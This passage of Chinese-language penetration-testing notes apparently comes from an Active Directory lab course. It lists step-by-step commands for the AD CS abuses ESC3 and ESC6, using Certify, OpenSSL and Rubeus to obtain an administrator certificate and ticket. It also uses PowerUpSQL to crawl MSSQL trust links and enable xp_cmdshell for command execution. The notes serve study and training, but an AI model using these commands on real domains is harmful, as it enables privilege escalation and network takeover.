 ### ESC3
需要有兩個 Template，第一個允許低權限註冊一個代理證書 (Agent)，第二個允許使用代理證書請求用戶證書
- 條件
	- 第一個
		- pkiextendedkeyusage 有 `Certificate Request Agent`
		- mspki-certificate-application-policy 有 `Certificate Request Agent`
	- 第二個
		- Application Policies 有 `Certificate Request Agent`
		- pkiextendedkeyusage 有 `Client Authentication`
- 使用方法
	- 針對第一個 Template 請求
		- `Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DC-CA /template:SmartCardEnrollment-Agent`
	- 用 OpenSSL 轉換
		- `openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx`
	- 針對第二個 Template 請求
		- `Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DC-CA /template:SmartCardEnrollment-Users /onbehalfof:dcorp\administrator /enrollcertpw:123 /enrollcert:openssl\cert.pfx`
			- `onbehalfof` : on behalf of = 代表誰
			- `enrollcertpw` : openssl 的密碼
	- 再用 OpenSSL 轉換
		- `pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx`
	- 請求 TGT
		- `..\Rubeus.exe asktgt /user:dcorp\administrator /certificate:cert.pfx /password:123 /domain:dollarcorp.moneycorp.local /ptt`

### ESC6
- 條件
	- 使用者的 SAN 有 `EDITF_ATTRIBUTESUBJECTALTNAME2`
		- 可以用 `Certify.exe find`
		- 或是 Certutil `certutil -config mcorp-dc.moneycorp.local\moneycorp-MCORP-DC-CA -getreg "policy\EditFlags"`
	- 找任意一個 `mspki-certificate-application-policy` 有 `Client Authentication` 的 Template

- 步驟
	-  `Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DC-CA /template:CA-Integration /altname:mcorp\administrator`
	- 再用 OpenSSL 轉換
	- 請求 TGT

## MSSQL
- PowerSQL
	- `Import-Module .\PowerUpSQL-master\PowerUpSQL.ps1`
	- 列出 MSSQL 在 Domain 的 Instance 
		- `Get-SQLInstanceDomain`
	- 列出 Server 狀態
		- `Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose`
	- Server 連線測試
		- `Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded`
	- 普通 SQL Query
		- `Get-SQLQuery -Instance dcorp-mssql -Query 'SELECT * FROM master..sysservers'`
	- Trust Link
		- 列舉 Trust Link
			- `Get-SQLServerLink -Instance dcorp-mssql`
		- Trust Link 串串樂
			- `Get-SQLServerLinkCrawl -Instance dcorp-mssql`
			- 串串樂 RCE
				- `Get-SQLServerLinkCrawl -Instance dcorp-mssql -Query 'EXECUTE(''sp_configure ''''xp_cmdshell'''',1;reconfigure;'')'`
				- `Get-SQLServerLinkCrawl -Instance dcorp-mssql -Query "exec master..xp_cmdshell 'whoami'"`